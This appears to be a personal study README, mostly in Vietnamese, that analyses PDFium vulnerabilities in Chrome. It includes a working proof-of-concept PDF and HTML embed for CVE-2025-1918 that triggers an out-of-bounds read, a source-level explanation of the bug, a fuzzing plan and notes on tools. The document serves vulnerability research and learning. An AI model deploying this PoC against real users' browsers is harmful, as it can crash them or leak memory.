


# PDFium Google Chrome CVE
## CVE-2025-1918
### References
CVE Informations: https://www.cve.org/CVERecord?id=CVE-2025-1918
Issue: https://issues.chromium.org/issues/388557904
Commit: https://chromium-review.googlesource.com/c/chromium/src/+/6168649
### Description
`Out of bounds read` in PDFium in Google Chrome prior to 134.0.6998.35 allowed a remote attacker to potentially perform `out of bounds memory access` via a crafted PDF file. (Chromium security severity: Medium)
#### VULNERABILITY DETAILS
access-violation on unknown address 0x7ffde90a6f3c in chrome_pdf::`anonymous namespace'::GetRotatedRectF 
#### Version
Chromium 133.0.6941.0 (Developer Build) (64-bit)
OS      Windows 11 Version 24H2 (Build 26100.2605)
#### POC Files
`poc.html`
```
<embed src="poc.pdf#view=fitb"></embed>
```

`poc.pdf`
```
%PDF
1 0 obj <<
    /Pages 1 0 R
    /Dests <<
        /MyDest [
            121
        ]
    >>
>>
trailer <</Root 1 0 R>>
```

#### Explain
Bình thường khi mở một file PDF thì Chrome sẽ render tại góc bên trên, tuy nhiên trong `<embed src="poc.pdf#view=fitb"></embed>` có từ khóa `fitb` (Fit Bounding Box) ép Chrome phải ngay lập tức tính toán Bounding Box của trang để xác định xem sẽ zoom lên như thế nào. Do đó, đoạn code này sẽ ngay lập tức trigger hàm `PDFiumPage::GetBoundingBox()` nơi mà đoạn bug xuất hiện.


File `poc.pdf` có phần trailer khai báo rằng object 1 là object root (object gốc của 1 page). Do đó Chrome sẽ load object 1 là một page (do là object root) $\to$ call `FPDFPage_GetRotation(page)` 
```c++
FPDF_EXPORT int FPDF_CALLCONV FPDFPage_GetRotation(FPDF_PAGE page) {
  CPDF_Page* pPage = CPDFPageFromFPDFPage(page);
  return IsPageObject(pPage) ? pPage->GetPageRotation() : -1;
}
```
$\to$ call `IsPageObject(page)` 
```c++
bool IsPageObject(CPDF_Page* pPage) {
  if (!pPage)
    return false;

  RetainPtr<const CPDF_Dictionary> pFormDict = pPage->GetDict();
  if (!pFormDict->KeyExist(pdfium::page_object::kType))
    return false;

  RetainPtr<const CPDF_Name> pName =
      ToName(pFormDict->GetObjectFor(pdfium::page_object::kType)->GetDirect());
  return pName && pName->GetString() == "Page";
}
```
$\to$ kiểm tra object 1 nhưng thiếu key `/Type` $\rightarrow$ return `false` $\to$ `rotation` nhận giá trị `-1`
$\to$ `GetRotatedRectF()` không xử lý `rotation = -1` trong `switch()` bởi vì enum `Rotation` không có giá trị `-1`. 
```c++
gfx::RectF GetRotatedRectF(PageRotation rotation,
                           gfx::SizeF page_size,
                           const PdfRect& original_bounds) {
  PdfRect bounds;

  // When the page is rotated 90 degrees or 270 degrees, the page width and
  // height are swapped. Swap it back for calculations.
  if (rotation == PageRotation::kRotate90 ||
      rotation == PageRotation::kRotate270) {
    page_size.Transpose();
  }

  switch (rotation) {
    case PageRotation::kRotate0: {
      bounds = original_bounds;
      break;
    }
    case PageRotation::kRotate90: {
      bounds = PdfRect(
          /*left=*/original_bounds.bottom(),
          /*bottom=*/page_size.width() - original_bounds.right(),
          /*right=*/original_bounds.top(),
          /*top=*/page_size.width() - original_bounds.left());
      break;
    }
    case PageRotation::kRotate180: {
      bounds = PdfRect(
          /*left=*/page_size.width() - original_bounds.right(),
          /*bottom=*/page_size.height() - original_bounds.top(),
          /*right=*/page_size.width() - original_bounds.left(),
          /*top=*/page_size.height() - original_bounds.bottom());
      break;
    }
    case PageRotation::kRotate270: {
      bounds = PdfRect(
          /*left=*/page_size.height() - original_bounds.top(),
          /*bottom=*/original_bounds.left(),
          /*right=*/page_size.height() - original_bounds.bottom(),
          /*top=*/original_bounds.right());
      break;
    }
  }

  return bounds.AsGfxRectF();
}
```
Nếu muốn không sửa đổi thư viện thì cần thêm một hàm xử lý đối với trường hợp trả về `-1`, ép nó thành dạng `nullopt` và `return` luôn.


Vị trí của hàm `GetRotatedRectF()` nằm trong file này https://github.com/chromium/chromium/blob/bd006e60820350dfb032fed121f30058e624fe35/pdf/pdfium/pdfium_page.cc#L331


## CVE-2025-1914

## CVE-2024-7973
### References
CVE Information: https://nvd.nist.gov/vuln/detail/cve-2024-7973

### Description
Heap buffer overflow in PDFium in Google Chrome prior to 128.0.6613.84 allowed a remote attacker to perform an out of bounds memory read via a crafted PDF file. (Chromium security severity: Medium)


# How to analysis CVE

1. Tìm hiểu về chức năng và nguyên lý hoạt động của program thông qua tài liệu
2. Phân tích source code để hiểu các tính năng thực sự hoạt động như thế nào
3. Sử dụng thư viện được audit liên tục luôn luôn an toàn hơn là tự bản thân implement một cái khác với tính năng tương đương
4. Compile với tuỳ chọn ASAN (address sanitizer) và biên dịch với tuỳ chọn không sử dụng optimizaiton để debug bằng assembly cho dễ
5. Ưu tiên fuzzing những thứ mà ít người fuzzing $\to$ tăng khả năng có lỗi
6. Sử dụng gdb để tìm backtrace và phân tích source code
7. Cùng một vùng có thể có nhiều chỗ có vulnerability
8. Mục tiêu là chiếm quyền kiểm soát instruction pointer để thực thi code tại một vùng nhớ mình mong muốn

# Step-by-step

1. Tìm những CVE tập trung vào các vulnerability có thể phát hiện được dựa vào AST mutation, cụ thể là `parsing`, `logic`, `type confusion`, `use-after-free`, `recursion issue`
2. Tìm commit dùng để fix CVE rồi so sánh trước và sau
3. Phân tích đoạn code vừa được sửa liên quan gì đến PDF Object Concept.
4. Chuyển đổi file PDF thành dạng "AST Tree"
5. Phát triển phương pháp mutation

-------------------------------------------------------
# Additional Information
1. `ldd` = list dynamic dependencies
$\to$ print the shared libraries required by each program and its mapping resolution (if the library was found)
$\to$ `linux-vdso.so.1` and `linux-gate.so.1` is virtual shared object provided by the kernel to speed up system calls.
$\to$ don't use `ldd` on untrusted binary because it may attempt to execute the program to determine its dependencies, use `objdump` or `readelf` instead.

2. compiler flags
2.1 address sanitizer
- mục đích: tìm bugs memory corruption tại runtime
- là builtin tool của compiler (gcc hoặc clang)
- nguyên lý hoạt động là instrument code để thêm các extra checks quanh các biến và những đoạn cấp phát bộ nhớ, nếu chương trình truy cập vào những vùng nhớ không cho phép thì ASan sẽ dừng chương trình ngay lập tức và in ra lỗi.
$\to$ PHẢI ĐỌC THÊM TÀI LIỆU VỀ CÁI NÀY SAU
2.2 optimization
- mục đích: khiến chương trình chạy nhanh hơn và tốn ít bộ nhớ hơn
- nguyên lí hoạt động là nó sẽ phân tích logic và viết lại code sao cho tối ưu hơn cho CPU mà chức năng vẫn không đổi.
- tuy nhiên điều này cũng khó hơn cho việc debug bằng gdb vì mã máy lúc này đã không còn khớp với source code nữa.

3. `file` command
- xác định loại type dựa trên nội dung thay vì dựa trên extension
- nguyên lí hoạt động dựa trên `magic number` tại đầu mỗi file. `magic number` ở đây chính là chuỗi byte đặc biệt đại diện cho một định dạng file duy nhất
- database được lưu trong `/usr/share/misc/magic.mgc`

4. FFmpeg (Fast Forward MPEG)
- opensource framework để xử lý multmedia data, hầu hết các video player như VLC hoặc các dịch vụ streaming như Youtube đều sử dụng cái này.
- chia ra làm 2 loại: command line tool để convert files, các library để sử dụng trong các chương trình khác.
- mục đích: chuyển đổi định dạng giữa các file, nén và giải nén?, gửi video đến một server và nhận nó, chỉnh sửa video frames,...
- "./ffmpeg -i https://localhost:12345/"
	-i: argument sau là input (source of data)
	=> hoạt động như một client, đọc media stream từ server localhost port 12345 (điều này có nghĩa là server localhost đấy cũng phải đóng vai trò là server và có gửi dữ liệu gì đó mới được)

5. `ctags`
- là một công cụ giúp lọc code, đánh thứ tự các methods, classes và variables.
- theo mình hiểu thì nó có tác dụng giống extensions trong vscode giúp Ctrl + F sẽ "nhảy" giữa các hàm để trace code tốt hơn, nhưng cái tool này dùng trong vims thì phải.

6. PDF không phải ngôn ngữ như C++ hay Python nên không tồn tại Abstract Syntax Tree, nhưng vẫn tồn tại khái niệm tương tự là Object Hierachy (hay còn được gọi là COS Tree). Nếu mục đích là phân tích CVE để tìm ra điểm chung các bugs nằm ở đâu trong PDF tree thì cần tập trung vào các lỗi liên quan đến `parsing`, `logic`, `type confusion`, `use-after-free`, `recursion issue`, những lỗi thường được tìm thấy bằng `AST mutation`, tránh những lỗi liên quan đến `buffer overflow`,...
$\to$ COS Tree là viết tắt của cái gì thế?
$\to$ có đúng là các lỗi mà AST mutation tìm được thường là các lỗi liên quan đến `parsing`, `logic`, `type confusion`, `use-after-free`, `recursion issue` không? những lỗi liên quan đến memory như `buffer over flow` 

7. `PDFium` repo chứa core library (parsing, rendering, logic) 
`Chromium` repo là browser có sử dụng `PDFium`

8. `optional` trong C++ là gì?
Được sử dụng để ngăn chặn việc sử dụng `return -1` hoặc tương tự để báo lỗi. Cụ thể, nó báo hiệu rằng có thể trả về giá trị hoặc không trả về gì cả. Bình thường, các hàm sẽ trả về `-1` nếu có lỗi xảy ra, tuy nhiên, những nơi sử dụng các hàm đó có thể quên không xử lý trưởng hợp `-1` này và có thể làm chương trình gặp lỗi không xác định. 
9. Định dạng `.deb` và `.rpm` khác nhau như thế nào?
- They are packages that contain all the files needed to install a software application.
- The difference lies in which "family" of Linux, `.deb` is for Debian Package, used by UBuntu, Kali,..., `.rpm` is for Red Hat Package Manager, used by Fedora, CentOS,...
- Run the install command `sudo apt install ./filename.deb`
10. Định dạng của file PDF là gì?
11. `embed` tag trong HTML?
Được sử dụng để "nhúng" nội dung ngoài hoặc media files (ảnh, video,...) trực tiếp vào trang web. Trong tag `embed` bình thường chỉ có các attributes như width, height, src,... chứ không có `#view=fitb`. Cái `#view=fitb` này là PDF Open Parameter, được truyền trực tiếp vào `PDF Viewer` (trong trường hợp này là PDFium). 